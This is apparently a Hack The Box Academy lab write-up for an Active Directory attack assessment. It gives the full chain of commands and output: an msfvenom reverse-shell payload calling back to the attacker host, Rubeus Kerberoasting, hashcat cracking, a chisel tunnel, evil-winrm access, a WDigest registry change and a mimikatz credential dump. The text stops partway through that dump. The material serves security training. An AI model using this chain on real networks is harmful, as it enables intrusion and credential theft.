

# Section 34: AD Enumeration & Attacks - Skills Assessment Part I

Module: 13. Active Directory Enumeration & Attacks

---

## Questions & Answers

### 1. Submit the contents of the flag.txt file on the administrator Desktop of the web server

Context:


**Answer:** `JusT_g3tt1ng_st@rt3d!`

---

### 2. Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

Context:
- Get reverse shell:
```bash
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.191 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: shell.exe
```
- Upload the file through Antak Web Shell and run `C:\shell.exe`
- Got reverse shell:
```bash
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.167.230 49730
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\windows\system32\inetsrv>whoami
whoami
nt authority\system

```
- Emunerating the host:
```powershell
C:\windows\system32\inetsrv>route print
route print
===========================================================================
Interface List
  7...00 50 56 8a 93 e5 ......vmxnet3 Ethernet Adapter #2
  3...00 50 56 8a 6b 42 ......vmxnet3 Ethernet Adapter
  1...........................Software Loopback Interface 1
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0       172.16.6.1     172.16.6.100     11
          0.0.0.0          0.0.0.0       10.129.0.1   10.129.167.230     15
       10.129.0.0      255.255.0.0         On-link    10.129.167.230    271
   10.129.167.230  255.255.255.255         On-link    10.129.167.230    271
   10.129.255.255  255.255.255.255         On-link    10.129.167.230    271
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
       172.16.0.0      255.255.0.0         On-link      172.16.6.100    266
     172.16.6.100  255.255.255.255         On-link      172.16.6.100    266
   172.16.255.255  255.255.255.255         On-link      172.16.6.100    266
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link      172.16.6.100    266
        224.0.0.0        240.0.0.0         On-link    10.129.167.230    271
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link      172.16.6.100    266
  255.255.255.255  255.255.255.255         On-link    10.129.167.230    271
===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0       172.16.6.1       1
===========================================================================

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  3    271 ::/0                     fe80::250:56ff:fe8a:e27c
  1    331 ::1/128                  On-link
  3    271 dead:beef::/64           On-link
  3    271 dead:beef::e1d6:9be4:1e7:d0a9/128
                                    On-link
  7    266 fe80::/64                On-link
  3    271 fe80::/64                On-link
  7    266 fe80::ddc:33d5:da7d:a939/128
                                    On-link
  3    271 fe80::e1d6:9be4:1e7:d0a9/128
                                    On-link
  1    331 ff00::/8                 On-link
  7    266 ff00::/8                 On-link
  3    271 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None
```
```
- 10.129.0.0/16 via 10.129.167.230 — this is the HTB "attack"/VPN-facing network, the one your Pwnbox/attack machine can reach.
- 172.16.0.0/16 via 172.16.6.100 — this is the internal AD network (domain controllers, other domain-joined hosts, etc.).
```
```powershell
C:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::ddc:33d5:da7d:a939%7
   IPv4 Address. . . . . . . . . . . : 172.16.6.100
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.6.1

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::e1d6:9be4:1e7:d0a9
   Link-local IPv6 Address . . . . . : fe80::e1d6:9be4:1e7:d0a9%3
   IPv4 Address. . . . . . . . . . . : 10.129.167.230
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe8a:e27c%3
                                       10.129.0.1
```
- Ping Sweep internal network:
```powershell
C:\windows\system32\inetsrv>for /L %i in (1,1,254) do @ping -n 1 -w 100 172.16.6.%i | find "Reply"
for /L %i in (1,1,254) do @ping -n 1 -w 100 172.16.6.%i | find "Reply"
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time=2ms TTL=128
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128
```
- Found two more IPs `172.16.6.3` and `172.16.6.50`, confirmed `172.16.6.3` is the DC:
```powershell
C:\windows\system32\inetsrv>nltest /dsgetdc:inlanefreight.local
nltest /dsgetdc:inlanefreight.local
           DC: \\DC01.INLANEFREIGHT.LOCAL
      Address: \\172.16.6.3
     Dom Guid: a9fc86ba-4427-40cd-839b-0efb14e07318
     Dom Name: INLANEFREIGHT.LOCAL
  Forest Name: INLANEFREIGHT.LOCAL
 Dc Site Name: Default-First-Site-Name
Our Site Name: Default-First-Site-Name
        Flags: PDC GC DS LDAP KDC TIMESERV GTIMESERV WRITABLE DNS_DC DNS_DOMAIN DNS_FOREST CLOSE_SITE FULL_SECRET WS DS_8 DS_9 DS_10
The command completed successfully
```
- Find the answer:
```powershell
C:\windows\system32\inetsrv>setspn.exe -Q MSSQLSvc/SQL01.inlanefreight.local:1433
setspn.exe -Q MSSQLSvc/SQL01.inlanefreight.local:1433
Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL01.inlanefreight.local:1433

Existing SPN found!
```


**Answer:** `svc_sql`

---

### 3. Crack the account's password. Submit the cleartext value.

Context:
- Download and transfer the `Rubeus.exe` to the machine then run:
```powershell
C:\Windows\Temp>.\Rubeus.exe kerberoast /spn:MSSQLSvc/SQL01.inlanefreight.local:1433 /nowrap
.\Rubeus.exe kerberoast /spn:MSSQLSvc/SQL01.inlanefreight.local:1433 /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.


[*] Target SPN             : MSSQLSvc/SQL01.inlanefreight.local:1433
[*] Hash                   : $krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.inlanefreight.local:1433*$9C14F0A6E853867D194490A7BD4D64E7$E8B552B78BC492F45CA096F0A2520E1CCBF917FB0FB1B4EAE3F7E12819DD44EB5713E9BE5AB6CC1ABDAA3B5A2BDB905A8CFA63A842513393C189D84563B5342ECDF8DF93162920EFBB8F71AC436284F37F06AFE0390446BAD4F0A8F2FCB11D8DD3A96CC0FFDBE519847E67DCA8AAC99470A5EF8AEDAD0CC32DC419CBC13094835CF5A8ED295DBF6A447C975F82DFFFE747A6DA11BF49D76D22FDE925CB6ED538A51C1019D5938C6CA3E0B1484526842F8D7DDA30C4C287B94629C6E260D9128A9F6AADDAD3DBD3A337CA3D4B5D85E789BE229250B2116AB254C2FB85405635B61BD6BA5507C88D420664EC33FB6641223280EAEF5C908B33D830B43F188454996A0592CDCAC3CEC8A98E47676C58960D27C70406593ABE568D02145414B657D0EF4875F28F95F4DD5B97F87F77B7D1D88882ECE57C964598DD0B6A631B51D8690C261B6EF3449CDE24954C0BE593E1AE6CBC15BC9998DDE7BE495B65B7A370F84EACBE446993DF711A82C59E05F716E0E9E9C2DEDA0AE5089684A8B68CABED8B6A4CA99BE92E6149F409C0569D447FF06CD99E03E75607155560CAA3B3C0E9539622204A3A6888994A49BC4EBC70FC6D8D385D1027BE5B9B9EFE393AC38A088494DB8208BB0C842F20F93C39F895162F142B71AEF89F71E8540F08D7F42179478624DB759A91B9E2D027FB8E2FBA2585CDD323DAA2789F3B902334B80D53FEF3F1AFFACDDE760094E549149422EC96A41B662263E3C8458F24A2BF8F688B5FB7A7FCF4BFA0A4275F6EFCF02E477504F7E1BEA218979DC33DFB3834B2B3A13CF1AD56DDBD57B5C79F9F8380ABD5B301CF819513DEBD92887C08D98A7E6259F89C235264AC48BB4D19DA687A1708A3FA1E8EBC21B24D53F8DA0AD3C3BCD0494262A828A7BB9C7FADA13BA81AFB102C9C19E3D7A0DFE2A8A039FE9DCD433883A1E6FB4690B25765B8459D103162A759866E26D2AAF4994695B954892EDDC2140C7D3438173F39578CE7F12D33BE4DA2D3B6F83B40042FAEFFC8AF7D8798B03716916AD9914B25FA871D9107DEB50B6F886C886ECCFA89E5D34A712B5223274C38E2A5B8570B1289BA88288ABFE921D71310770A85BDAE735BFF9E08948A36CBAAA63572F3FDF55F91894D2BD0C055068C5EE3C656E22986C0AD2EE147F339A14DF7FB8B604D67F4B283ACF3CD27057CFC9E6E2D5F004FA4134CA22D86867006D6864F4AB2D412FCE64C190D0E053EC4B3C41FA057CF463D1B8F6F4A2481684B14B705FEEBE71BA03BA3547A441A4A4F73BADD448B815D83B6BFD94F06F0CD85483CEBD399F1D8EDFA3309FE2B0BB6D7AACEF29F05BA0EEF4C421BAF8802A62FBC3431707AC49122BB9CF0EFD0D1565B9E271C3A0434DB32FFA7C45FB29A39C1F2509A0262FFEC6A1D69D531E7F93C9C00E1C58CC7F2BA399A302FEBA16DC01A9B0EB42ACF887F0F8EBFBE618ABD4D40FBFB650025A2CACC388D999591A47D5D44DC7730E86166B3B7AA3C55A838415EEDCC33737141AA554833
```
- Crack the hash:
```bash
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ hashcat -m 13100 tgs /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD EPYC-Milan Processor, 3844/7752 MB (969 MB allocatable), 4MCU

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
====================================================================================================================================================
* Device #2: cpu-haswell-AMD EPYC-Milan Processor, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.inlanefreight.local:1433*$9c14f0a6e853867d194490a7bd4d64e7$e8b552b78bc492f45ca096f0a2520e1ccbf917fb0fb1b4eae3f7e12819dd44eb5713e9be5ab6cc1abdaa3b5a2bdb905a8cfa63a842513393c189d84563b5342ecdf8df93162920efbb8f71ac436284f37f06afe0390446bad4f0a8f2fcb11d8dd3a96cc0ffdbe519847e67dca8aac99470a5ef8aedad0cc32dc419cbc13094835cf5a8ed295dbf6a447c975f82dfffe747a6da11bf49d76d22fde925cb6ed538a51c1019d5938c6ca3e0b1484526842f8d7dda30c4c287b94629c6e260d9128a9f6aaddad3dbd3a337ca3d4b5d85e789be229250b2116ab254c2fb85405635b61bd6ba5507c88d420664ec33fb6641223280eaef5c908b33d830b43f188454996a0592cdcac3cec8a98e47676c58960d27c70406593abe568d02145414b657d0ef4875f28f95f4dd5b97f87f77b7d1d88882ece57c964598dd0b6a631b51d8690c261b6ef3449cde24954c0be593e1ae6cbc15bc9998dde7be495b65b7a370f84eacbe446993df711a82c59e05f716e0e9e9c2deda0ae5089684a8b68cabed8b6a4ca99be92e6149f409c0569d447ff06cd99e03e75607155560caa3b3c0e9539622204a3a6888994a49bc4ebc70fc6d8d385d1027be5b9b9efe393ac38a088494db8208bb0c842f20f93c39f895162f142b71aef89f71e8540f08d7f42179478624db759a91b9e2d027fb8e2fba2585cdd323daa2789f3b902334b80d53fef3f1affacdde760094e549149422ec96a41b662263e3c8458f24a2bf8f688b5fb7a7fcf4bfa0a4275f6efcf02e477504f7e1bea218979dc33dfb3834b2b3a13cf1ad56ddbd57b5c79f9f8380abd5b301cf819513debd92887c08d98a7e6259f89c235264ac48bb4d19da687a1708a3fa1e8ebc21b24d53f8da0ad3c3bcd0494262a828a7bb9c7fada13ba81afb102c9c19e3d7a0dfe2a8a039fe9dcd433883a1e6fb4690b25765b8459d103162a759866e26d2aaf4994695b954892eddc2140c7d3438173f39578ce7f12d33be4da2d3b6f83b40042faeffc8af7d8798b03716916ad9914b25fa871d9107deb50b6f886c886eccfa89e5d34a712b5223274c38e2a5b8570b1289ba88288abfe921d71310770a85bdae735bff9e08948a36cbaaa63572f3fdf55f91894d2bd0c055068c5ee3c656e22986c0ad2ee147f339a14df7fb8b604d67f4b283acf3cd27057cfc9e6e2d5f004fa4134ca22d86867006d6864f4ab2d412fce64c190d0e053ec4b3c41fa057cf463d1b8f6f4a2481684b14b705feebe71ba03ba3547a441a4a4f73badd448b815d83b6bfd94f06f0cd85483cebd399f1d8edfa3309fe2b0bb6d7aacef29f05ba0eef4c421baf8802a62fbc3431707ac49122bb9cf0efd0d1565b9e271c3a0434db32ffa7c45fb29a39c1f2509a0262ffec6a1d69d531e7f93c9c00e1c58cc7f2ba399a302feba16dc01a9b0eb42acf887f0f8ebfbe618abd4d40fbfb650025a2cacc388d999591a47d5d44dc7730e86166b3b7aa3c55a838415eedcc33737141aa554833:lucky7
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.inlanefreig...554833
Time.Started.....: Fri Aug 21 01:16:51 2026 (0 secs)
Time.Estimated...: Fri Aug 21 01:16:51 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1311.1 kH/s (1.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1

Started: Fri Aug 21 01:16:50 2026
Stopped: Fri Aug 21 01:16:52 2026
```

**Answer:** `lucky7`

---

### 4. Submit the contents of the flag.txt file on the Administrator desktop on MS01

Context:
- For further attack, use `chisel` for our pwnbox to get access to internal network:
```
# Pwnbox
./chisel server -p 8000 --reverse

# Windows reverse shell
chisel.exe client 10.10.15.191:8000 R:socks
```
- Using `proxychains` got the shell and get the flag:
```bash
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ sudo sed -i 's/socks4.*127.0.0.1.*1433/socks5 127.0.0.1 1080/' /etc/proxychains.conf
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> type C:\Users\Admistrator\Desktop\flag.txt
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
Cannot find path 'C:\Users\Admistrator\Desktop\flag.txt' because it does not exist.
At line:1 char:1
+ type C:\Users\Admistrator\Desktop\flag.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Admistrator\Desktop\flag.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> dir C:\Users\Administrator\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/11/2022   8:01 PM             29 flag.txt


*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> type C:\Users\Administrator\Desktop\flag.txt
spn$_r0ast1ng_on_@n_0p3n_f1re
```

**Answer:** `spn$_r0ast1ng_on_@n_0p3n_f1re`

---

### 5. Find cleartext credentials for another domain user. Submit the username as your answer.

Context:
```bash
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> upload /home/htb-ac-2162140/mimikatz.exe
                                        
Info: Uploading /home/htb-ac-2162140/mimikatz.exe to C:\Users\svc_sql.INLANEFREIGHT\Documents\mimikatz.exe
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
                                        
Data: 1666740 bytes of 1666740 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> shutdown.exe /r /t 0 /f
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985 <--socket error or timeout!
                                        
Error: An error of type Errno::ECONNREFUSED happened, message is Connection refused - Connection refused - connect(2) for "172.16.6.50" port 5985 (172.16.6.50:5985)
                                        
Error: Exiting with code 1
/usr/bin/evil-winrm: warning: Exception in finalizer #<Proc:0x00007f3faab75c00 /usr/share/rubygems-integration/all/gems/winrm-2.3.6/lib/winrm/shells/power_shell.rb:33>
/usr/lib/ruby/vendor_ruby/logging/diagnostic_context.rb:471:in `new': can't alloc thread (ThreadError)
	from /usr/lib/ruby/vendor_ruby/logging/diagnostic_context.rb:471:in `create_with_logging_context'
	from /usr/lib/ruby/vendor_ruby/logging/diagnostic_context.rb:436:in `new'
	from /usr/lib/ruby/3.3.0/timeout.rb:98:in `create_timeout_thread'
	from /usr/lib/ruby/3.3.0/timeout.rb:131:in `block in ensure_timeout_thread_created'
	from /usr/lib/ruby/3.3.0/timeout.rb:129:in `synchronize'
	from /usr/lib/ruby/3.3.0/timeout.rb:129:in `ensure_timeout_thread_created'
	from /usr/lib/ruby/3.3.0/timeout.rb:178:in `timeout'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient/session.rb:748:in `connect'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient/session.rb:511:in `query'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient/session.rb:177:in `query'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:1246:in `do_get_block'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:1023:in `block in do_request'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:1137:in `protect_keep_alive_disconnected'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:1018:in `do_request'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:860:in `request'
	from /usr/share/rubygems-integration/all/gems/httpclient-2.8.3/lib/httpclient.rb:769:in `post'
	from /usr/share/rubygems-integration/all/gems/winrm-2.3.6/lib/winrm/http/transport.rb:176:in `send_request'
	from /usr/share/rubygems-integration/all/gems/winrm-2.3.6/lib/winrm/shells/power_shell.rb:42:in `close_shell'
	from /usr/share/rubygems-integration/all/gems/winrm-2.3.6/lib/winrm/shells/power_shell.rb:33:in `block in finalize'
┌─[eu-academy-2]─[10.10.15.191]─[htb-ac-2162140@htb-ru5kcueavg-htb-cloud-com]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:5985  ...  OK

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 55410 (00000000:0000d872)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-90-0-1
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	ssp :
	credman :

Authentication Id : 0 ; 34400 (00000000:00008660)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               :
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	kerberos :
	ssp :
	credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : MS01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-18
	msv :
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : ms01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : (null)
	ssp :
	credman :

